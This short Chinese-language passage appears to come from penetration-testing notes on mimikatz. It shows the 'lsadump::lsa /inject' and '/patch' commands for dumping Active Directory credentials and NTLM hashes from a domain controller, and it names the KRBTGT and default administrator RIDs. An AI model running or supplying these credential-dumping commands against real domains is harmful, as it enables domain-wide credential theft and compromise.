 `mimikatz "lsadump::lsa /inject" exit`
该命令如果在DC上运行，会导出整个活动目录的凭证信息，RID 502的是KRBTGT用户，RID 500的是默认域管理员账户
![](../img/lsadump.lsa1.jpg)
`lsadump::lsa /patch`只会导出活动目录里的NTLM HASH